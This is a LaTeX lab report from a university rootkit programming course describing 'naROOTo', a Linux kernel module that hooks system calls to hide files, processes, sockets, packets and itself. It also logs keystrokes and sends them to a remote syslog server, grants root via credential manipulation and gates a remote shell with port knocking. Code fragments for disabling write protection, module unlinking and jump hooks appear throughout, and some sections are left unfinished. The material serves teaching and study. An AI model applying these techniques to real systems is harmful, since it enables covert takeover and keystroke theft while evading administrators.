\documentclass[10pt, letterpaper]{scrartcl}
\usepackage [english]{babel}
\usepackage{enumitem}
\usepackage{geometry}
\usepackage{color}
\usepackage{tikz}
\usepackage{listings}
\usepackage{latexsym}
\usepackage{amsmath}
\usepackage{multirow}
\usetikzlibrary{snakes}
\usetikzlibrary{patterns}
\usepackage[loose]{subfigure}
\usepackage[pdfborder={0 0 0}]{hyperref}


\geometry{margin=2.5cm}

\title{Rootkit Gruppe 4}
\subtitle{TUM \\Chair of IT Security\\  Rootkit Programming 2014/2015}
\author{Martin Herrman \and Gurusiddesha Chandrasekhara}
\date{\today}

\begin{document}
\maketitle
\tableofcontents
\newpage

\section{Introduction}
This root-kit has been implemented as part of the "Root-kit programming" lab course. 
It is a single Linux Kernel Module(LKM) and can be inserted into the Linux kernel 3.16 or later versions. 
It explains how to acheive many root-kit functionalities just by manipulation of kernel data structures and hooking few system calls. 
Controlled correctly, it does so much work such as hiding files, hiding processes, hiding sockets, keylogging, 
sending key strokes to remote machine, hiding network packets, privilege escalation.   

Compilation, installation and controlling is explained in the coming sections.

\section{Compiling and Installing}
\subsection{System configuration}
This rootkit has been implemented and tested on the following configuration.
\begin{itemize}
    \item Linux Kernel 3.16.4 (Vanilla kernel) 
\end{itemize}

\subsection{Building}
        In order to build the module, just cd to source directory and issue 'make' command. 
	If the setup is correct, it should create \texttt{naROOTo}.ko inside the source directory. 

\subsection{Loading}
        Make sure compilation of root-kit was successful, then just issue 'insmod \texttt{naROOTo}.ko', to the module. 
	Once the module is loaded, it does the following tasks. 
    
\begin{itemize}
    \item It hides itself from the user. 
    \item Creates a  file called rootkit\_keylog.log inside the current directory and hides it (It logs any keystrokes entered by the user).
    \item Hides the process id which provides the remote shell access. 
    \item Hides the network connection to the remote shell and it only accepts connections when you politely knock beforehand.
    \end{itemize}


\section{Commands and control}
    \subsection{Controlling \texttt{naROOTo}}
    Once \texttt{naROOTo} is loaded, it can be controlled by covert communication channel to do various jobs. 
For this, we hook the read system call and intercept data from stdin and take actions for each existing  commands. 
We use a state machine model (which will be described later) to read the data and look for specific commands entered. 

%TODO : Add command details once done with coding
Each command starts with a prefix(For detecting purpose), \texttt{f7R\_} and ends with ;. 
After the prefix one can enter the actual command. The format of the command looks like,
\\~
\texttt{f7R\_command\textvisiblespace parameter;}

After you typed the command, pressing \texttt{return} or \texttt{enter} is not necessary, you can press \texttt{Ctrl + C} to avoid bash error. 
Our module will execute as soon as the suffix(;) is entered, provided the command exists. 
The table %ADD table reference
gives the available commands and their use. 

\begin{table}
%\centering
\begin{tabular}{ |l|l| }
\hline
\multicolumn{2}{ |c| }{File hiding} \\
\hline
 \texttt{f7R\_hide\_file\textvisiblespace<path>;} & \texttt{<path>} is the absolute path of the file to hide \\
 \texttt{f7R\_unhide\_file\textvisiblespace<path>;} & To unhide the previously hidden file \\ \hline

\multicolumn{2}{ |c| }{Process hiding} \\
\hline
\texttt{f7R\_hide\_process\textvisiblespace<pid>;} & \texttt{<pid>} is the id of the process to be hidden\\
\texttt{f7R\_unhide\_process\textvisiblespace<pid>;} & To unhide the process by it's pid\\ \hline


\multicolumn{2}{ |c| }{Hiding sockets} \\
\hline
\texttt{f7R\_hide\_tcp\textvisiblespace<port>;} & \texttt{<port>} is the port number of tcp socket to be hidden\\
\texttt{f7R\_unhide\_tcp\textvisiblespace<port>;} & To unhide the tcp socket\\
\texttt{f7R\_hide\_udp\textvisiblespace<port>;} & \texttt{<port>} is the port number of udp socket to be hidden\\
\texttt{f7R\_unhide\_udp\textvisiblespace<port>;} & To unishie the udp socket\\ \hline

\multicolumn{2}{ |c| }{Module hiding} \\
\hline
\texttt{f7R\_hide\_module\textvisiblespace<name>;} & \texttt{<name>} is the name of the module to be hidden\\
\texttt{f7R\_unhide\_module\textvisiblespace<name>;} & to unhide the hidden module\\ \hline


\multicolumn{2}{ |c|}{Network key logging} \\
\hline
\texttt{f7R\_enable\_net\_keylog\textvisiblespace<ip>;} & To enable network keylogging, ip of the destination must be given\\
\texttt{f7R\_disable\_net\_keylog;} & To disable network keylogging, no parameter required.\\ \hline

\multicolumn{2}{ |c| }{Port Knocking} \\
\hline
\texttt{f7R\_enable\_knocking\_tcp\textvisiblespace<port>;} & To enable port knocking for tcp\\ 
\texttt{f7R\_disable\_knocking\_tcp\textvisiblespace<port>;} & To disable port knocking for tcp\\ 
\texttt{f7R\_enable\_knocking\_udp\textvisiblespace<port>;} & To enable port knocking for udp\\ 
\texttt{f7R\_disable\_knocking\_udp\textvisiblespace<port>;} & To disable port knocking for udp\\ \hline


\multicolumn{2}{ |c| }{Previlage escalation} \\
\hline
\texttt{f7R\_escalate;} & Type this from any terminal, that will get root privileges.\\ 
\texttt{f7R\_deescalate;} & Revokes the root privileges of a shell.\\ \hline

\end{tabular}
\caption{Commands to control the rootkit}
\label{tab:commands}
\end{table}

\section{Implementation}
This section explains how \texttt{naROOTo} is designed and how do we achieve specific functionality. 

\subsection{High-level design}
\texttt{naROOTo} is divided into many sub-modules(files). Each submodules have .h (header files) and .c (implemetation files).
This gives us a lot of flexibility to add or remove any feature.

\texttt{main.c} combines every functionality and that's where we have \texttt{init\_module} and \texttt{cleanup\_module}.
The following table describes the functionality of each file.



\begin{tabular}{l*{6}r}
File name             & Functionality \\
\hline
gensysmap.sh & Bach script to generate sysmap.h file\\
control.\{c,h\} & Manages the data structures for different hiding methods\\
include.\{c,h\} & contains many different helper functions   \\
covert\_communication.\{c,h\} & All functionality needed for the covert communication channel \\
getdents.\{c,h\} & contains everything needed for the manipulated getdents syscall\\
read.\{c,h\} & Hookes the read system call \\
hide\_module.\{c,h\} & Functionality needed for hiding the modules\\
hide\_socket.\{c,h\} & Contains all necessary things for hiding sockets\\
hide\_packet.\{c,h\} & Contains all necessary things for hiding packets\\
port\_knocking.\{c,h\} & Functionlity needed for port knocking\\
net\_keylog.\{c,h\} & Contains netpoll APIs for implementing network logging\\

\end{tabular}




\subsection{Obtaining address of kernel symbols}
The kernel symbols are important in writing various modules. Many of the kernel symbols are not easily available through libraries 
and many of them are not exported in recent kernel versions (for eg. \texttt{sys\_call\_table}).
The \texttt{System.map.<kernel version>} file under \texttt{/boot} directory stores the address of the kernel symbols and is of the form, 
\begin{verbatim}
address type symbol_name
\end{verbatim}

We wrote a simple bash script to take these symbols and define them in a \texttt{sysmap.h} file. 
Each line of the file looks like, 

\begin{verbatim}
#define sysmap_symbol_name address
\end{verbatim}

When we require a particular kernel symbol, we can just type cast the corresponding symbol and use it. 

\texttt{System call table}: The system call table lists the system calls available in that specific Linux kernel version. 
It could also be thought of as an API for the interface between user space and kernel space. 
In order to manipulate the system calls(which we explain in upcoming sections), our first job was to access the system call table.
We can access the system call table from the \texttt{sysmap.h} file like this,

\begin{verbatim}
void **sys_call_table = (void *) sysmap_sys_call_table;
\end{verbatim}

\subsection{System call hooking}
System call hooking is a well known method in writing root-kits. 
We know that all system call addresses are in \texttt{sys\_call\_table} and they will be executed according to requirement.
The fundamental idea is that, we change system call table address to our custom function, 
while store pointer to the original function. This way whenever the function is called, 
it will first land in our {\em manipulated} function. 
We can play with the arguments and modify(or keep original) them according to the need and call the original function with the manipulated(or original) set of arguments. 

\texttt{Disabling and enabling write protection}: 
We cannot just modify the system call table since it is write protected. 
So we have to disable the write protection before modification.
For this, we found a mechanism to disable the write protection for the whole processor.
By using assembly code we modify \texttt{cr0} register value.

\begin{verbatim}
static void disable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (value & 0x00010000) {
            value &= ~0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}

static void enable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (!(value & 0x00010000)) {
            value |= 0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}
\end{verbatim}

As you can notice in the code, \texttt{cr0} is a control register, 
The 16th bit controls page protection enforcement: 
toggling this bit turns of the write protection for the complete processor.
We can do this in kernel space, because the code is executed at privilege level (ring) 0. 

\subsection{Process Hiding}
The task was to hide process ids, which user enters when inserting the module. 
To check the processes, we can do \texttt{ls} on \texttt{/proc} directory. 
\texttt{ps} also does an \texttt{ls} on \texttt{/proc} folder.   
\texttt{strace} on \texttt{ls} gave us that, it calls getndents and reads each linux\_dirent structures. 
\texttt{d\_reclen} is the length of each structure. 

\begin{verbatim}
int getdents(unsigned int fd, struct linux\_dirent *dirp,
                    unsigned int count);
\end{verbatim}


So to do this we hook \texttt{getdents} system call. 
We first compare if \texttt{fd} matches \texttt{/proc} folder. 
If it matches, then iterate over each entry in the directory.
dirp->d\_name is the name of each entry inside the folder. 
So we first need to convert this char entry to integer and compare with the pid which we want to hide.
If it matches, then we delete the entry. 

\subsection{File Hiding}
The task was to hide any file names starting with rootkit\_ and to hide any open file descriptors, 
starting with that name. we hook \texttt{getdents} function as we did it for process hiding. 
We simply call original getdents function and iterate over linux\_dirent structures.
we search for d\_name matching to a prefix, \texttt{rootkit\_} or \texttt{.rootkit\_}. 
If we find the match, we just {\em delete} it by moving the pointer using \texttt{memmove}.

@mher:Could you please add details for hiding symlinks 

\subsection{Code Hiding}
We can get the information on loaded modules using \texttt{lsmod}
(which lists the entries from \texttt{/proc/modules}) and entries in \texttt{/sys/modules}

\texttt{Hiding the module from /proc/modules}: All the modules in the kernel are arranged as linked list, 
where each list of type \texttt{struct module}. \texttt{THIS\_MODULE} macro which points to the current module. 
To hide it from lsmod we just need to delete the particular entry from the list of modules. 
This can be easily achieved via list operations defined in \texttt{list.h}:\texttt{list\_del}, 
\texttt{list\_add\_tail}, \texttt{list\_add}. Once removed from the list of modules, 
it will not show up anymore when using \texttt{lsmod}. 

\texttt{Hiding the module from /sys/modules}: Deleting from \texttt{/sys/modules} was a tricky part. 
Just deleting from the list of modules, will not stop showing it up from \texttt{/sys/modules}.
This we can do by two different methods. By hacking the \texttt{filldir} function or by deleting it from the 
kernel file system. If we do this by using first method \texttt{naROOTo} will be easily detectable. 
% add how: One can count the number of modules from 
So we decided to delete the entry from the kernel file system. \texttt{THIS\_MODULE} points to kernel object. 
If we delete this kernel object of type \texttt{struct kernfs\_node}, then it will not show up from from \texttt{/sys/modules}. 
In recent versions of kernel, the kernel objects are implemented as red-black trees. 
There are functions defined in \texttt{rbtree.h} to perform this operation. 

\begin{verbatim}
rb_erase(&kn->rb, &kn->parent->dir.children);
RB_CLEAR_NODE(&kn->rb);
\end{verbatim}

%TODO: gmc: add details about removing kernfs\_node. 

\subsection{Network Key-logging}
We had the local key-logging already enabled in our root-kit by hooking \texttt{read} system call. 
We just had to send this keys to \texttt{syslog-ng} server, using syslog protocol. 
These packets can be sent using \texttt{UDP} packets using \texttt{netpoll} kernel API. 
The \texttt{netpoll.h} provides the mechanism for sending UDP packets to a remote host. 
Only one constraint in netpoll is that, the destination port has to be a Ethernet port. 

To do this function, we need to first initialize the netpoll structure with IP address, port number etc. 
before using it to send the keys. 
The \texttt{netpoll} structure looks like this, 

\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member. 


\texttt{Setting up syslog-ng server}: One must set the \texttt{syslog-ng} server in the destination. 
The following steps are for setting the syslog-ng server on Ubuntu. 
\begin{itemize}
\item Install the syslog-ng server: sudo apt-get install syslog-ng

\item Add these entries in \texttt{syslog-ng.conf} file (you can find the file under /etc/syslog-ng/ folder)
\begin{verbatim}
source syslog_udp {
udp(port(514));
};
destination df_wrt0 {
file("/var/log/rootkit_log.log");
};
log {
source(syslog_udp);
destination(df_wrt0);
}
filter f_wrt0 {
host("Ip from you are getting the data");
};
log {
source(syslog_udp);
filter(f_wrt0);
destination(df_wrt0);
}
\end{verbatim}

\end{itemize}

\subsection{Privilege Escalation}
To give the root privileges to any shell, we have to hack the credentials of the particular shell and 
manipulate them. There is a structure called \texttt{cred}: 
It holds the credentials of the respective process. These credentials are uids and gids. 
There are functions available from Linux kernel, to get these credentials and change them. 

\begin{verbatim}
struct cred * prepare_creds();
commit_creds(struct cred *);
\end{verbatim}

Once we get the credentials, we can assign all the ids to 0, and we will give the root access to the shell. 
Since we have hooked read system call, 
we can type \texttt{escalate} from any terminal and it gets the root access. 

\subsection{Socket Hiding}
The task was to hide any existing TCP/UDP sockets from the user. 
User can determine the socket details using \texttt{ss} and \texttt{netstat} commands.
The idea was to determine how netstat and ss works, 
then manipulate their behavior in such a way that they don't show the sockets whih we want to hide. 
With a little bit of research(\texttt{strace} on netstat), 
we found that netstat just prints out the contents of \texttt{/proc/tcp} and \texttt{/proc/udp}.

Our initial assumption of just manipulating these files was not so straight forward. 
Since, these files are \texttt{sequence files}: 
These files sequentially fills up on request by corresponding \texttt{sequence functions}. 
We had to get access to these sequence functions, \texttt{tcp\_seq\_show} and \texttt{udp\_seq\_show}. 
From the \texttt{proc\_dir\_entry} \texttt{init\_net.proc\_net->subdir}, 
we can search for the directory names \texttt{tcp} and \texttt{udp}. \
Once we get the match we store the pointer of original function, and replace by our hooked function. 

To filter out the sockets by port number we need to access port number inside our hooked function. 
\texttt{inet\_sock} struct has the port number. 
In our hooked function, we have void pointer which is of type \texttt{struct sock}. 
We can get the \texttt{inet\_sock} stucture from \texttt{sock} using \texttt{inet\_sk} function. 
If we find the port of our interest, we just \texttt{return 0;} so that this line doesn't show up in the 
sequence file, otherwise it behaves as original show function. 

\texttt{Hiding TCP sockets from ss}: By manipulating sequence functions we took care of \texttt{netstat} 
command and UDP packets from \texttt{ss} command. But still TCP sockets shows up through the \texttt{ss} command.
To read from the sockets, \texttt{ss} uses \texttt{recvmsg} system call. 
If we hook the \texttt{recvmsg} system call and intercept the data, we will be able to hide TCP sockets from ss. 
For this reason we hooked \texttt{recvmsg} system call, 
since hooking system calls is one of the easiest ways to alter the data.
We obtain the \texttt{nlmsghdr} from the hooked call and we get the length of the original call.
Until we find our port number, we search for port number in the next messages in multipart message. 
Once we find the port number that we want to hide, 
we copy the remaining entries and decrease the length of the original function and call it.


\subsection{Packet Hiding}
Our goal was to hide any network packets from any process which uses libcap to  sniff packets.
At first we wanted to understand how libcap tools work to sniff packets. \texttt{strace} on tcpdump gave us some useful information. It uses packet sockets and then socket is polled every second to retrieve the information.   

\begin{verbatim}
socket(PF_PACKET, SOCK_RAW, 768)        = 3
poll([{fd=3, events=POLLIN}], 1, 1000)  = 0 (Timeout)
\end{verbatim} 

Some further investigations of libcap lead us to understand that, these three functions are involved in getting the packet information.\texttt{packet\_rcv}, \texttt{tpacket\_rcv}, \texttt{packet\_rcv\_spkt}. These functions give the packet information to user space when {\em memory mapped} sockets are used.

So we decided to hook the these functions. 
We use {\em jump code injection} method to hook these functions. This means that we copy (assembly)
code at the top of the function body which leads to a jump to our (hooked) function. Whenever we need to call
the original function, we have to overwrite this section with the original code again and do an ordinary call to
it. We used \texttt{push-ret} method to perform jump. 
We \texttt{push} the address on top of the stack and issue a \texttt{ret} instruction.

\begin{verbatim}
char hook[6] = { 0x68, 0x00, 0x00, 0x00, 0x00, 0xc3 };
unsigned int *target = (unsigned int *) (hook + 1);
\end{verbatim} 

In the hooked functions, we call \texttt{is\_packet\_hidden} function with \texttt{struct sk\_buff} as parameter.
We just extract the ip header from \texttt{sk\_buff} and check if we want to hide this ip address and return the values accordingly. 
If we do not want to hide the packet in the hooked function, we just restore original, call it, hook again. 
  
\subsection{Port Knocking}
To implement rudimentary port knocking feature, we accept the service that we want to hide and an ip address 
from which the connections are accepted. To implement this we use Netfilter hooks. Netfilter is a set of hooks inside Linux kernel. 
It allows kernel modules to register callback functions with the network stack in order to intercept and manipulate the network packet.

The IPv4 packet traversal through Netfilter system is illustrated in figure \ref{netfilter}, 
\begin{figure*}
\centerline{

\includegraphics[width=1.0\columnwidth]{netfilter.jpg}
}
\caption{Netfilter System hook}
% A label to allow refering to this figure in the text.
\label{netfilter}
\end{figure*}

When a network packet comes in, it is passed to the netfilter’s first hook \texttt{NF\_INET\_PRE\_ROUTING}. After that, the packet goes through the routing code, which decides where the packet is destined to, either another port in same network interface or another interface. It also might drop the packet if it’s unroutable. So we hook netfilter function like below. 

\begin{verbatim}
        /* setup everything for the netfilter hook */
        hook.hook = knocking_hook;              /* our function */
        hook.hooknum = NF_INET_LOCAL_IN;        /* grab everything that comes in */
        hook.pf = PF_INET;                      /* we only care about ipv4 */
        hook.priority = NF_IP_PRI_FIRST;        /* respect my prioritah */

        /* actually do the hook */
        ret = nf_register_hook(&hook);
\end{verbatim} 

And in the hooked function, we extract the ip header from \texttt{sk\_buff} and check if the port is blocked, depending on that we then craft an appropriate \texttt{REJECT} response. For TCP we send \texttt{TCP RST} and for UDP we send icmp port unreachable. If the port is allowed to connect we send \texttt{NF\_ACCEPT} to allow the connection.

\section{Vulnerabilities}
Though \texttt{naROOTo} can perform operations in stealth mode, it could be detected via certain methods. 

\texttt{Detection via hooked system calls}: We hook many system calls \texttt{read}, \texttt{getdents} etc. 
The original address of these functions can be obtained from System map files. 
If the user writes a module where he checks the address in the system call table against the address from the Sysmap file it can be easily found out, unless we modify the Sysmap file or delete it from the system. 

\texttt{Detection via hidden processes}

\texttt{Detection via hidden files}

\section{Final words}
\texttt{naROOTo} implemented lot of functionalities, This project is a good insight into linux kernel and understanding the root-kits.
Once Out\_module is in the system, it can gain almost complete access over the system and send the information to the remote system. 

\end{document}
